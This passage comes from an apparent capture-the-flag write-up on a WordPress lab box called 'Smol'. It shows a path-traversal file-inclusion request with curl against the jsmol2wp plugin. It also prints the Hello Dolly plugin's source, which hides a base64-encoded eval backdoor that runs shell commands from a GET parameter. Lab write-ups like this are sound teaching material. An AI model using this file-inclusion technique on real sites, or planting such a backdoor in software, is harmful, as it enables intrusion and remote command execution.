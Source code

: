 The First thing that we see when we open it is information about a potential backdoor in a plugin called `Hello Dolly` 

Using the LFI vulnerability we can check the code on this plugin

```console
┌──(kali㉿kali)-[~/Smol]
└─$ curl 'http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?query=php://filter/resource=../../../../../../../var/www/wordpress/wp-content/plugins/hello.php'

.................

// This just echoes the chosen line, we'll position it later.
function hello_dolly() {
        eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));

        $chosen = hello_dolly_get_lyric();
        $lang   = '';
        if ( 'en_' !== substr( get_user_locale(), 0, 3 ) ) {
                $lang = ' lang="en"';
        }

        printf(
                '<p id="dolly"><span class="screen-reader-text">%s </span><span dir="ltr"%s>%s</span></p>',
                __( 'Quote from Hello Dolly song, by Jerry Herman:' ),
                $lang,
                $chosen
        );
}

.................
```

Looking over the code in this function we find the `eval()` function it evaluates a string as PHP code and runs it ([PHP: eval - Manual](https://www.php.net/manual/en/function.eval.php)) , the first thing we need to do to figure out what is does is decode it from base64

We can use [cyberchef](https://cyberchef.org/) to decode it

![cyberchef](/assets/img/CTFs/Smol/cyberchef.jpg)
